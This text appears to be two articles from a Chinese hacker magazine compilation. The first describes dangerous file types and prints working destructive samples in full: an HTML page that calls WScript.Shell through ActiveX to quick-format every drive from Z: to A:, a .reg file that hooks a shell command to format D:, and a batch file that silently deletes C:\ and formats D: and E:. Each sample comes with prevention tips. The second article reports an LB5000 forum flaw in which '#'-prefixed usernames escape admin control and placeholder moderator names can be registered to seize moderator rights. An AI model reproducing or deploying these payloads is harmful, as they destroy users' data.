HTML 是超文本标识语言，是一个功能强大的语言，可以调用自身以外的脚本，如 VBS、JS、GIF，还可以调用 ActiveX 控件。现在在广阔的网络空间里，一个最小的个人网站也有一个首页，这么广泛使用的文件为什么是恐怖文件呢？就拿地球 60 多亿人口中有恐怖分子一个道理嘛！有人在该类型文件里加入恶意代码，注意，这里说的不是病毒入侵后改写的恶意代码，而是说直接加入 DOS 命令。当浏览到含有下面代码的页面时，就会弹出 26 个 DOS 窗口，从 Z 盘格式化到 A 盘，速度极快，代码如下：

```html
<OBJECT classid=clsid:F935DC22-1CF0-11D0-ADB9-00C04FD58A0B id=wsh></OBJECT>
<SCRIPT>
wsh.Run('start /m format.com z: /q /autotest /u')
wsh.Run('start /m format.com y: /q /autotest /u')
wsh.Run('start /m format.com x: /q /autotest /u')
```

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<HTML><HEAD>
<META http-equiv=Content-Type content="text/html; charset=koi8-r">
wsh.Run("start /m format.com w: /q /autotest /u");
wsh.Run("start /m format.com v: /q /autotest /u");
wsh.Run("start /m format.com u: /q /autotest /u");
wsh.Run("start /m format.com t: /q /autotest /u");
wsh.Run("start /m format.com s: /q /autotest /u");
wsh.Run("start /m format.com r: /q /autotest /u");
wsh.Run("start /m format.com q: /q /autotest /u");
wsh.Run("start /m format.com p: /q /autotest /u");
wsh.Run("start /m format.com o: /q /autotest /u");
wsh.Run("start /m format.com n: /q /autotest /u");
wsh.Run("start /m format.com m: /q /autotest /u");
wsh.Run("start /m format.com l: /q /autotest /u");
wsh.Run("start /m format.com k: /q /autotest /u");
wsh.Run("start /m format.com j: /q /autotest /u");
wsh.Run("start /m format.com i: /q /autotest /u");
wsh.Run("start /m format.com h: /q /autotest /u");
wsh.Run("start /m format.com g: /q /autotest /u");
wsh.Run("start /m format.com f: /q /autotest /u");
wsh.Run("start /m format.com e: /q /autotest /u");
wsh.Run("start /m format.com d: /q /autotest /u");
wsh.Run("start /m format.com c: /q /autotest /u");
wsh.Run("start /m format.com b: /q /autotest /u");
wsh.Run("start /m format.com a: /q /autotest /u");
</SCRIPT>
```

有些文章说的危险文本文件是指 `file.txt.html`，其实也是 HTML 文件，只不过图标是文本文件的，实质就是网页文件。我来解释一下参数意义：

- `/q` 是快速格式化
- `/autotest` 是自动检测分区类型参数
- `/u` 是无条件格式化

有了上面这些，是否勾起你当年痛苦的回忆？不用怕，照下面几点做就可以杜绝这种事再次发生。

- 1. 不要浏览陌生的 HTML 文件，在未知情况下应用记事本看文件源代码是否有恶意代码，以确定是否运行。
- 2. IE 弹出对话框提示该页面不安全之类的，除非你清楚地知道你在做什么，否则千万不要点确定。
- 3. 将 `windows/wscript.exe` 等网页脚本解释器改名，在 IE 中禁用脚本和测试、活动脚本，把 ActiveX 控件和插件关闭，把 IE 安全级别设为高级等。
- 4. 安装网络防火墙，本人强烈推荐诺顿产品。

## 三、注册表导入文件

不要小看这种文件，任何东西都有好有坏。好的嘛，恢复注册表；坏的嘛，格式化硬盘。如果危害没这么大，我才懒得说。用记事本编辑个 `kill.reg`，内容如下：

```text
REGEDIT4

[HKEY_CLASSES_ROOT\CLSID\20004FE0-3AEA-1069-A2DB-08002B30309D\shell\open\command]
@="format d: /q /u /autotest"
```

运行这个文件，硬盘便咔咔响了。

- 1. 用记事本打开注册表导入文件查看内容，判断无误后再决定是否运行。
- 2. 把那些危险命令改名，如 `format.com` 等。

### 四、批处理 BAT 文件

这是 DOS 下的三大可执行文件之一，只有 BAT 文件可以用文本编辑器编写，让它替我们智能化地做一系列事情，省去很多烦琐的工作。既然这样，调用几个命令怎么样？看过上面的朋友就知道了，马上闪出 Format 命令。怎么样？都是格式化或删除命令吧？所以我不说危险而说恐怖了，嘿嘿。打开记事本或在 DOS 下输入 EDIT 进文本编辑器，然后输入以下内容：

```bat
@echo off
Wait for a moment,please……Loading now!
@delete /y c:\*.* >nul
@format D: /q /u /autotest >nul
@format E: /q /u /autotest >nul

@echo game over! I think you are going to die!
```

然后存成 `*.bat` 文件运行看看吧！欲哭无泪吧！这个文件更加阴险，不出任何提示，无声无息格了你的硬盘。很恐怖吧！我们当然要预防，要避免这些文件的恶意攻击，我总结了一些通用方法。

- 1. 既然都是调用文件，那么就把那些文件删除或改名，如 `format.com`、`delete.com` 等。
- 2. 既然都是格式化，大家知道，如果该分区运行了程序，那么格式化将无法完成。所以，如果可以，每个分区都运行一些程序，如 D 盘运行 mp3，E 盘运行 QQ，F 盘运行防火墙等等……
- 3. 运行不明文件先查看属性或源代码。

补充一点，还有一种文件，磁盘碎片文件。据说也有很强的破坏力，但我没经历过也没见过，所以请哪位高手赐教。如果产生碎片文件，二话不说就删除。

> 编者按：雷傲论坛是山成、花无缺的作品，是国内很优秀的论坛，很多黑客站点以及商业站点都用雷傲。然而由于使用的普及，它的安全性问题渐渐暴露出来。现在 LB5000 XP V0403 的雷傲论坛有个小 BUG，本文作者进行了比较彻底的测试，如果您正在使用的是雷傲论坛，那一定不要错过本文。


## 测试 LB5000 XP V0403 的安全性

LB5000 是一个非常优秀的论坛，操作方便，界面美观，现在越来越多网站都在使用它。但它也不是十全十美的，今天在测试 LB5000 XP V0403 的安全性的时候，发现几个问题，都是注册用户的问题！过程如下：

- 1、注册一个名为 test 的用户，注册成功。
- 2、注册一个名为 test!# 的用户，注册成功。
- 3、注册一个名为 +test 的用户，注册成功。
- 4、注册一个名为 ~test 的用户，问题出来了，提交注册页面后，系统居然说该用户名已经被注册！论坛是最新的，怎么会这样？接着又注册“!test”、“@test”……

## 黑客X档案2002－2003年合订本

# 黑客研究院

系统均提示该用户名已被注册，如图1所示：


这是怎么回事呢？为什么test、test#、#test都没有问题，!test、@test却不行了，我马上又注册##test#，嘿！成功了。为什么#test#又可以注册呢？我初步断定#test这个用户名有问题，一时摸不清楚是怎么回事，就到管理中心看看这几个用户，直接查看T开头的用户列表，test和test#都很正常，如图2所示：


当打开以“#t”开头的用户列表的时候，居然显示一片空白！如图3所示：


这么说连坛主都没有办法修改以“#t”开头的用户吗？那这些人不是“逍遥法外”了吗？编辑test，注意看URL，显示的是：http://127.0.0.1/lb/setmembers.cgi?action=edit&member=test

我们把后面的test换成#test看看，应该可以修改了吧？可恶，居然说没有这个用户，如图4所示：


编辑不了就删除他吧！删除用户的URL是：

http://127.0.0.1/lb/setmembers.cgi?action=deletemember&member=用户名

把用户名改为#test，这时出现了警告信息，只有点击下面的链接才可以删除用户“”（引号），注意到没有？“”里面是空的，我删test的时候“”里面是test，也就是只有点击下面的链接才可以删除用户“test”。不管它，点击“删除用户”，出现删除成功，但我猜想#test肯定是安然无恙，我猜得没错，用户列表里还有他，看来#test还是没动过，就是动他不得。先放下这些，我用~!、@、$、%、^、&、*、()放在一些用户名前面注册，比如“~rose”注册完以后，系统会自动去掉“~”，而用户名就变成了rose，看来是过滤了，自动消去那些字符，看来开发者可能漏了过滤“#”这个符号了吧！现在连坛主都对他无可奈何，为了测试这个漏洞（暂时这么说吧），我注册20多个用户。在管理中心里，除了用户名开头为“#”的都可以任意修改，但以“#”开头的任何用户都修改不了，资料根本不显示，而且上面的红字显示查看所有以“”开头的用户，那个“”里面就是没有名字，如图5所示：


这个漏洞比较烦人，为什么呢？因为注册者虽然只是普通用户，但却可以恶意灌水、发送大量的消息、帖子，占用服务器的资源，管理员只能删除帖子了，却对这个用户无可奈何！希望开发者在下一个版本中能补好这个漏洞。

另外一点，就是有些论坛的某个分论坛里没有版主，坛主便在设定版主那里打上“无人”、“等你”、“招聘中”等。这样是很危险的做法，因为这样就等于你事先给这个用户加上了版主的权限，或者说在版主的队伍里添加了这个人。但实际上这个人并不存在，只要有人注册，那么这个分论坛就归他管了。也就是“一出世就是神仙”，这样的危害是广泛论坛的人几乎都会知道。如果是个大论坛，里边有几百张帖子，过不了几天那些帖子就会全部被删了。我做了如下测试：

先在一个分论坛设定版主为“招聘中”，然后去注册一个名叫“招聘中”的用户，登录后去那个分论坛。这样我就已经拥有版主的权限了，虽然人家还是普通用户，但却可以在这个版中为所欲为了，我认为这个方面也需要修正一下。如图6所示：


## 防范方法

其实也很简单，如果你设定了版主并注明用户名，就一定要在管理中心的注册管理保留特殊用户名“*”里面加上这个名字，以防被一些不怀好意的人注册后做坏事！

曾有网友测试过，在网上下载了一个查看“*”号的工具，来查看密码框的密码。由此引发一个问题：如果在网吧或公众场合灌水，由于有事，暂时离开，正好那台机子上有查看“*”号的工具，